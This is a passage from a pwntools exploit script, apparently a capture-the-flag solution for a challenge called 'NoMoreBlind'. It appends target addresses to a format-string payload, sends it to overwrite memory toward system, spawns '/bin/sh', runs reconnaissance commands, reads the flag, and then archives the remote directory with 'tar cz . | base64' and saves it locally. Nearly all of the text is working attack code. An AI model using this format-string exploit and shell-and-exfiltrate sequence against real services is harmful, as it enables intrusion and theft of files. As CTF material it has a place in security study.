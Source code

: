 ```python
fmt += p32(target_lo)
fmt += p32(target_hi)

log.info("fmt payload len = {}\n{}\n{}".format(len(fmt), repr(fmt), hexdump(fmt)))
assert len(fmt) % 4 == 0
if "\n" in fmt:
    log.error("newlines in formatstr:\n" + hexdump(fmt))


# vp.interactive()

vp.sendline(fmt)

i = 0
full = (max([system_lo, system_hi]))
with context.local(log_level='info'):
    prog = log.progress("reading back fmt")
    while i < full:
        x = vp.recv(8096, timeout=0.2)
        i += len(x)
        prog.status("{} / {}".format(i, full))
    prog.success("done")

log.info("last block:\n" + hexdump(x))

vp.sendline("/bin/sh")
vp.sendline("id;pwd;ls -al")

vp.sendline("cd /home/rooney/suctf/NoMoreBlind")
vp.sendline("cat flag")

vp.interactive()

vp.sendline("cd /home/rooney/suctf/NoMoreBlind")
vp.sendline("tar cz . | base64; exit")

l = ""
x = vp.recv(8096, timeout=0.5)
l = x
while x:
    x = vp.recv(8096, timeout=0.5)
    l += x

with open("./nomore.leaked.tar.gz.b64", "wb") as f:
    f.write(l)
```

